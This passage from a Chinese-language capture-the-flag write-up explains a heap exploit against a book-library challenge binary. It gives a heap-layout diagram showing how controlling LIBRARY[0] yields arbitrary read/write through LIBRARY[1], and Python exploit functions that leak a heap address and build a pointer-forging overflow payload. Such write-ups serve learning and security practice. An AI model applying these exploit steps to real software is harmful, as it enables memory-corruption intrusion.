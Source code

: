 经过我们控制 `LIBRARY[0]` 的地址的之后可以形成如下的形式：

```
                                Heap Segment 
                                                             
                             +--------------------+          
                        0x18 | book1 name buffer  |          
                             ----------------------          
                       0x100 | book1 desc buffer  |          
   +-----------+             |                    |          
   | library[0]|------------>| control seqnumber  | 1        
   -------------             | control name ptr   |          
   | library[1]|--+          | control desc ptr   |---------+
   -------------  |          | control desc size  | 0x100   |
   |  ......   |  |          ----------------------         |
   +-----------+  |          | book1 seqnumber    | 1       |
                  |     0x20 | book1 name ptr     |         |
                  |          | book1 desc ptr     |         |
                  |          | book1 desc size    | 0x100   |
                  |          +--------------------+         |
                  |          +--------------------+         |
                  |     0x20 | book2 name buffer  |         |
                  |          ----------------------         |
                  |     0x20 | book2 desc buffer  |         |
                  |          ----------------------         |
                  +--------> | book2 seqnumber    | 2       |
                        0x20 | book2 name ptr     |         |
                             | book2 desc ptr     |<--------+
                             | book2 desc size    | 0x20     
                             +--------------------+          
```

于是我们可以通过 `LIBRARY[0]` 控制 `LIBRARY[1]` 的指针，从而修改/读取任意地址。

泄露的脚本如下：

```python
    def leak_heap_addr(self):
        self.set_author_name("A" * 32)
        self.create(0x18, "LeakHeap", 0x100, "LeakDesc")
        self.detail()
        author = [ld["Author"] for ld in self.library_detail if ld["Name"] == "LeakHeap"]
        assert len(author) == 1
        self.library[0] = u64(author[0][32:] + "\x00\x00")
        print hex(self.library[0])

    def get_addr_write(self):
        self.create(0x20, "GetAddrWrite", 0x20, "WriteDesc")
        offset = self.library[0] & 0xff
        assert offset >= 0x20
        payload = "A"*(0x100+0x10 - offset) + p64(0x1) \
                  + p64(self.library[0] + 0x20 + 0x10) \
                  + p64(self.library[0] + 0x20 + 0x30 + 0x30 + 0x10) \
                  + p64(0x100)
        self.edit(1, payload)
        self.set_author_name("B" * 32)
```
